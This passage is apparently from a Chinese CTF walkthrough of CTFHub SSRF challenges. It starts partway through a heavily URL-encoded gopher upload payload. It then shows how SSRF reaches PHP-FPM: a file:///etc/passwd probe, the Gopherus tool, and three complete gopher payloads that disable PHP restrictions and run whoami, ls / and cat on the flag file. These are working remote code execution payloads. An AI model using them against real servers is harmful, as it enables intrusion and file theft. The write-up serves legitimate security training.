 ```
e%252574%25252d%252554%252579%252570%252565%25253a%252520%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%25256f%252563%252574%252565%252574%25252d%252573%252574%252572%252565%252561%25256d%25250d%25250a%25250d%25250a%25253c%25253f%252570%252568%252570%252520%252570%252568%252570%252569%25256e%252566%25256f%252528%252529%25253b%25253f%25253e%25250d%25250a%25252d%25252d%25252d%25252d%25252d%25252d%252557%252565%252562%25254b%252569%252574%252546%25256f%252572%25256d%252542%25256f%252575%25256e%252564%252561%252572%252579%252574%25254c%252574%252544%252566%252562%25256d%252536%252548%252578%252575%252578%252567%252576%252556%252578%25252d%25252d%25250d%25250a
```
![](https://img-blog.csdnimg.cn/20200928164602783.png#pic_center)

参考：[CTFHUB技能树-SSRF【持续更新】](https://blog.csdn.net/qq_33295410/article/details/108619685)
[CTFHub-SSRF部分（持续更新）](https://blog.csdn.net/rfrder/article/details/108589988)

### FastCGI协议
提示：这次.我们需要攻击一下fastcgi协议咯.也许附件的文章会对你有点帮助

`?url=file:///etc/passwd`
![](https://img-blog.csdnimg.cn/20201002164118803.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)首先验证存在ssrf，那么使用ssrf来攻击fpm，利用gopher协议攻击，使用神器[Gopherus](https://github.com/tarunkant/Gopherus)
`python gopherus.py --exploit fastcgi`
![](https://img-blog.csdnimg.cn/20201002164634462.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
得到payload，进行url编码并传入，执行whoami
```php
?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%20%2F%20fcgiclient%20%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH58%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%20%253D%20On%250Adisable_functions%20%253D%20%250Aauto_prepend_file%20%253D%20php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%253A%2504%2500%3C%253Fphp%20system('whoami')%253Bdie('-----Made-by-SpyD3r-----%250A')%253B%253F%3E%2500%2500%2500%2500
```
![](https://img-blog.csdnimg.cn/20201002165250374.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
最后执行`cat /flag`，发现没有。。。。那么查看根目录`ls /`，得到flag名
```php
?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```
![](https://img-blog.csdnimg.cn/20201002165957139.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
最后cat即可
```php
?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_91ae5ed6072b4bdaaeb5160534730cb3%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```
![](https://img-blog.csdnimg.cn/20201002170246591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
参考文章：